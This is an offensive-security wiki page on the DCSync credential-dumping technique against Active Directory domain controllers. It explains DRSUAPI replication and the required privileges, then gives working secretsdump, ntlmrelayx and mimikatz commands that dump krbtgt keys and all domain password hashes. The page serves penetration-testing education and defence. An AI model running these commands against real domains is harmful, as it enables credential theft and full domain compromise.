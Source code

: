 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](broken-reference) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](broken-reference) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

**This attack requires domain admin privileges** to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](broken-reference).

{% hint style="info" %}
A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](broken-reference) or [pass-the-ticket](broken-reference).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File       | Content                                             |
| ---------- | --------------------------------------------------- |
| .ntds      | LM and NT password hashes                           |
| .cleartext | Passwords stored using reversible encryption        |
| .kerberos  | Kerberos keys (DES, AES128 and AES256)              |
| .sam       | Domain controller's [SAM secrets](broken-reference) |
| .secrets   | Domain controller's [LSA secrets](broken-reference) |

This attack can also be operated with a [relayed NTLM authentication](broken-reference), but only if the target domain controller is vulnerable to [Zerologon](broken-reference) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](broken-reference) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](broken-reference) or [pass-the-ticket](broken-reference)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a `CIFS/domaincontroller` SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a `LDAP/domaincontroller` SPN when using Kerberos tickets)
{% endhint %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}
